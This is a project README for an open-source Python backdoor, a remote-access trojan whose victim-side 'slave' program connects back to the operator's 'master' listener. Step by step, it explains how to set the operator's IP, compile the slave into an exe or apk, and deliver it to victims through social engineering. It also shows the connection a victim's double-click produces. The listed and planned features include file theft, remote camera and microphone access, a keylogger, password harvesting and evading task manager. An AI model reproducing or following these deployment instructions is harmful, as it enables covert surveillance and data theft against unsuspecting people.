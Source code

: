 # Python backdoor V1

<p>This project is a cross-platform (Windows/Linux/android) open source, backdoor and uses reverse http request, which contains many features. It's made using Python 3</p>

# Installation

### Prerequisities
Should have python version 3.9.* and above

### Install
```
    git clone "https://github.com/jayantkhanna1/backdoor.git"
```
Then enter folder and run following commands:

```
    pip install pipwin
    pipwin install pyaudio
    pip install -r requirements.txt
```
Software is now installed 

### Usage
Get your local Ip address:
#### For windows
```
ipconfig
```
#### For LINUX
```
ifconfig
```
Copy your ip address and paste them in following files : master.py and slave.pyw <br>

In master.py line 8
```
    host = "your ip"
```

In slave.py line 6 and 33
```
    host = "your ip"
```

Enter slave folder and find slave.pyw file you need to make a exe(windows)/apk(android) to send to remote host via social engineering methods <br>
To convert to exe a module is already provided if you have followed above steps follow these steps
```
    pyinstaller --onefile slave.pyw
```
If you have not installed all modules as told above run following commands:
```
    pip install pyinstaller
    pyinstaller --onefile slave.pyw
```
Make sure you are inside slave folder else you might recieve following error :
```
    102 INFO: UPX is not available.
    script 'path/to/your/download/slave.pyw' not found
```
Make sure master.py is running before remote host tries to connect using slave.pyw 

```
    python master.py
```
If all goes well when remote host double clicks executable file (some name.exe) you should recieve following on your terminal:
```
    python master.py

    waiting for connection
    ('your ip address', <port>) has connected
    command >>
```
# Features
<ul>
<li>Get directory where backdoor is installed</li>
<li>Send, download and remove files and folders from remote system</li>
<li>Always up untill user chooses to end backdoor on remote host</li>
<li>Get OS details</li>
<li>Open remote host's camera remotely</li>
<li>Open remote host's microphone remotely *</li>
<li>Screen share remote host's screen remotely *</li>
<li>Shutdown remote host's computer remotely *</li>
<li>Inbuilt keylogger *</li>
<li>Encrypt/Decrypt files/folder *</li>
</ul>
<p>Features with '*' are not yet present will be added soon</p>

# Plans for future Versions:
<ul>
<li>Even if slave.pyw is run first still master will be able to connect </li>
<li>Work after every restart</li>
<li>Complete control of remote hosts desktop</li>
<li>Migration of task to GUI task on remote host to prevent killing form task manager</li>
<li>Hooking browser with beef</li>
<li>Get saved passwords from remote host</li>
<li>Get remote host Geolocation</li>
<li>Make a web-based GUI for ease of understanding</li>
</ul>

# Disclaimer
<p>This program is for educational purposes only. I take no responsibility or liability for own personal use. You are not allowed to edit this software in any form</p>

# Terms and condition for use
coming soon
